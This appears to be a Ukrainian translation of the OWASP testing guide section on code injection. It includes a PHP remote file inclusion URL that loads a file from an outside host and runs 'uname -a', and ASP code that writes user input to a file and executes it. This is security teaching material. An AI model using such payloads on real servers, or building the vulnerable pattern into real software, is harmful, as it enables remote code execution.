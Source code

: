 # Тестування на ін'єкції коду

## Підсумок

У цьому розділі описано, як тестувальник може перевірити, чи можна ввести код як вхідні дані на веб-сторінці та виконати його веб-сервером.

Під час тестування за допомогою [ін'єкції коду](https://owasp.org/www-community/attacks/Code_Injection) тестувальник надсилає вхідні дані, які обробляються веб-сервером як динамічний код або як включений файл. Ці тести можуть бути націлені на різні механізми сценаріїв на стороні сервера, наприклад, ASP або PHP. Для захисту від цих атак необхідно застосувати належну перевірку введених даних і безпечне кодування.
## Мета тестуваннь
- Визначити точки ін’єкції, де ви можете ін’єктувати код у програму.
- Оцінка ступені тяжкості ін'єкції.

## Як тестувати
### Тестування чорної скриньки
#### Тестування вразливостей PHP Injection
Використовуючи рядок запиту, тестувальник може ввести код (у цьому прикладі шкідливу URL-адресу), який буде оброблено як частину включеного файлу:
```
http://www.example.com/uptime.php?pin=http://www.example2.com/packx1/cs.jpg?&cmd=uname%20-a
```
*Шкідлива URL-адреса приймається як параметр для сторінки PHP, яка пізніше використовуватиме значення у включеному файлі.*

### Тестування cірої скриньки
#### Тестування вразливостей впровадження коду ASP

Вивчіть код ASP для введення користувачами, що використовується у функціях виконання. Чи може користувач вводити команди в поле вводу даних? Тут код ASP збереже вхідні дані у файл, а потім виконає його:
```
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```
